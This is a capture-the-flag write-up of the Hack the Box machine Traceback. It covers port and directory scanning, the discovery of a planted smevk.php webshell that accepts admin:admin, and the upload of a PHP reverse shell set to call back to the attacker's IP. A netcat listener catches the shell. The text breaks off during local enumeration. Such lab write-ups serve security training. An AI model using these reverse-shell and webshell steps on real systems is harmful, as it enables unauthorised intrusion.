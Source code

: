 ## WORK IN PROGRESS

![traceback](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/traceback.jpg)

## Enumeration \
Start with a detailed nmap scan:


<div class="text-white bg-blue mb-2">
nmap -sC -sV -Pn -p- 10.10.10.181

Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-14 16:57 EDT
Nmap scan report for 10.10.10.181
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp filtered http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/$
Nmap done: 1 IP address (1 host up) scanned in 74.85 seconds
</div>


Lets check out the webserver in a browser:
```
http://10.10.10.181/
```
![webserver](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webserver.JPG)

The webserver landing page states there is a backdoor somewhere.  Let's enumerate further with gobuster:

```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/14 17:00:26 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.asp (Status: 403)
/.hta (Status: 403)
/.hta.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.asp (Status: 403)
/.htpasswd.php (Status: 403)
/.hta.asp (Status: 403)
/.hta.php (Status: 403)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2020/03/14 17:00:54 Finished
=====================================================
```

Nothing Interesting here.  Lets try nikto:

```
nikto -h 10.10.10.181:80


- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.181
+ Target Hostname:    10.10.10.181
+ Target Port:        80
+ Start Time:         2020-03-14 17:01:06 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 459, size: 5911796d5b788, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated:  17 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-03-14 17:14:14 (GMT-4) (788 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Again nothing very interesting.  Lets dig into the landing page.  It looks like the page was created by someone with the handle Xh4H.  I did some googling and found the users Github page with a list of webshells he likes to use:

```
https://github.com/Xh4H/Web-Shells
```
![webshells](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webshells.JPG)

I then combined these into a wordlist to be used with gobuster:
```
root@an0nym0us3:~/HTB/Traceback# cat webshell_list 
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Now run gobuster against the webserver using the new wordlist:
```
gobuster -w webshell_list -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
        [+] Wordlist     : webshell_list
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/15 22:31:33 Starting gobuster
=====================================================
/smevk.php (Status: 200)
=====================================================
2020/03/15 22:31:38 Finished
=====================================================
```

Looks like there is a page using one of the web shells.  Lets naviagte to it in the web browser:
```
http://10.10.10.181/smevk.php
```
![smevk](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/smevk.JPG)

I tried the credentials admin:admin and was able to login:

![portal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/portal.JPG)

## Exploitation

Looks like we can upload a reverse php shell to this location.  


Lets upload the [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey to the webserver after we change the ip address and port to our attacking machine:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.15.224';  // CHANGE THIS
$port = 12345;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Now that our reverse shell is on the server, let set up a netcat listener to catch a reverse shell:

```
nc -nlvp 12345
```

Now execute the reverse shell using curl:
```
curl http://10.10.10.181/php-reverse-shell.php
```

And we get a reverse shell as the user webadmin:
```
root@an0nym0us3:~/HTB/Traceback# nc -nlvp 12345
listening on [any] 12345 ...
connect to [10.10.14.146] from (UNKNOWN) [10.10.10.181] 40458
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:01:58 up 2 min,  0 users,  load average: 0.43, 0.24, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
/bin/sh: 0: can't access tty; job control turned off
```
First lets get an interactive bash shell:
```
$ bash -i
bash: cannot set terminal process group (521): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/$
```

Lets see what other users are on the machine:
```
webadmin@traceback:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root     root     4096 Aug 25  2019 .
drwxr-xr-x 22 root     root     4096 Aug 25  2019 ..
drwxr-x---  5 sysadmin sysadmin 4096 Mar 16 03:53 sysadmin
drwxr-x---  5 webadmin sysadmin 4096 Mar 16 18:03 webadmin
```

Ok now lets see what is our home directory:
```
webadmin@traceback:/home/webadmin$ ls -la
ls -la
total 48
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 18:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

No user.txt file.  Look at the note.txt:
```
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```







